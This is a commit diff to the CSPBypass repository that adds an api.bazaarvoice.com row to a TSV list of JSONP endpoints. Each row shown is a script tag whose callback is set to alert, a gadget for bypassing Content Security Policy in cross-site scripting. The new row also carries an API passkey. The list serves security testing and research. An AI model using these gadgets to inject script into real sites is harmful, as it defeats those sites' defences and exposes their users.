

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in ….

Commit message:
Added api.bazaarvoice.com

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -10,2 +10,3 @@ anchor.digitalocean.com	<script src="https://anchor.digitalocean.com/index.php/f
 ap.lijit.com	<script src="https://ap.lijit.com/rtb/bid?callback=alert&br={%22id%22:%221%22,%22site%22:{%22domain%22:%22x%22,%22page%22:%22x%22}}"></script>
+api.bazaarvoice.com	<script src="https://api.bazaarvoice.com/data/batch.json?passkey=e75powr7wqhg1ah5seu00zawf&callback=alert"></script>
 api.bing.com	<script src="https://api.bing.com/osjson.aspx?query=x&JsonType=callback&JsonCallback=alert"></script>
```
